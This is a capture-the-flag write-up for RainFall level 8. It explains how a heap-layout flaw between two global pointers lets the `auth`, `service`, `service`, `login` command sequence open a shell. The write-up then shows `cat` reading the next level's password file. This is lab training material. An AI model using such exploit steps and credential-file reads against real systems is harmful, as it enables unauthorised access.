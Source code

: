 # Level 8

We have a big main and 2 global variables: `auth` and `service`.
The main continuously asks for input, with the valid commands being: `auth `(notice the space), `service`, `reset` and `login`.

It took some time here to figure out that auth wasn't a `char*`, but probably an `int*`. I got this because on dogbolt.org when you decompile with BinaryNinja, it showed an offset of 32 instead of 8 on line 33 of the source.c.
That would be because a char is 1 byte, and an int 4 bytes.

All we need to do is run the `auth ` command once, to initialize it with an address, and then run `service` twice, so that 32 bytes after the start of auth there are nonzero bytes (from the strdup() call on line 30) and finish it off with `login`.

```shell
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth space
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ cat /home/user/level9/.pass
[redacted]
$ 
```
